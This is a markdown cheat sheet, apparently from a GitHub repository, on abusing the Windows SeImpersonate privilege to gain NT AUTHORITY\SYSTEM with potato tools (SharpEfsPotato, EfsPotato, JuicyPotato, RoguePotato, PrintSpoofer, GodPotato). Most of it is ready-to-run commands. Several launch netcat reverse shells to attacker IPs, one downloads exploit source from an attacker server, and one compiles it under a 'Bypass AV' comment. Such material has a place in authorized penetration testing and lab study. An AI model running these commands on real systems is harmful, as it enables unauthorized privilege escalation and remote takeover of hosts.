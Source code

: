 # SeImpersonate

> [!WARNING]
> **JuicyPotato doesn't work** on Windows Server 2019 and Windows 10 build 1809 onwards. However, [**PrintSpoofer**](https://github.com/itm4n/PrintSpoofer)**,** [**RoguePotato**](https://github.com/antonioCoco/RoguePotato)**,** [**SharpEfsPotato**](https://github.com/bugch3ck/SharpEfsPotato)**,** [**GodPotato**](https://github.com/BeichenDream/GodPotato) can be used to **leverage the same privileges and gain** `**NT AUTHORITY\SYSTEM**` level access. This [blog post](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/) goes in-depth on the `PrintSpoofer` tool, which can be used to abuse impersonation privileges on Windows 10 and Server 2019 hosts where JuicyPotato no longer works.

### SharpEfsPotato
```
SharpEfsPotato.exe -p C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe -a "whoami | Set-Content C:\temp\w.log"
```
### EfsPotato
https://github.com/zcgonvh/EfsPotato
```
Invoke-WebRequest -Uri http://10.10.14.165:8000/EfsPotato.cs -OutFile EfsPotato.cs

# Bypass AV
C:\Windows\Microsoft.Net\Framework\v4.0.30319\csc.exe EfsPotato.cs -nowarn:1691,618

./EfsPotato.exe '.\nc64.exe 10.10.14.165 5555 -e cmd'
```
### JuicyPotato
JuicyPotato doesn't work on Windows Server 2019 and Windows 10 build 1809 onwards. 

```powershell
JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.3 8443 -e cmd.exe" -t *
```

However, [PrintSpoofer](https://github.com/itm4n/PrintSpoofer) and [RoguePotato](https://github.com/antonioCoco/RoguePotato) can be used to leverage the same privileges and gain `NT AUTHORITY\SYSTEM` level access.

https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/
### RoguePotato
```powershell
RoguePotato.exe -r <AttackerIP> -e "shell.exe" -l 9999
```
### PrintSpoofer
```powershell
.\PrintSpoofer64.exe -c "C:\Users\Public\Documents\nc64.exe 10.10.14.165 5555 -e cmd"
```
### GodPotato
```powershell
GodPotato.exe -cmd "cmd /c whoami"
GodPotato.exe -cmd "shell.exe"
```

### References:
https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/roguepotato-and-printspoofer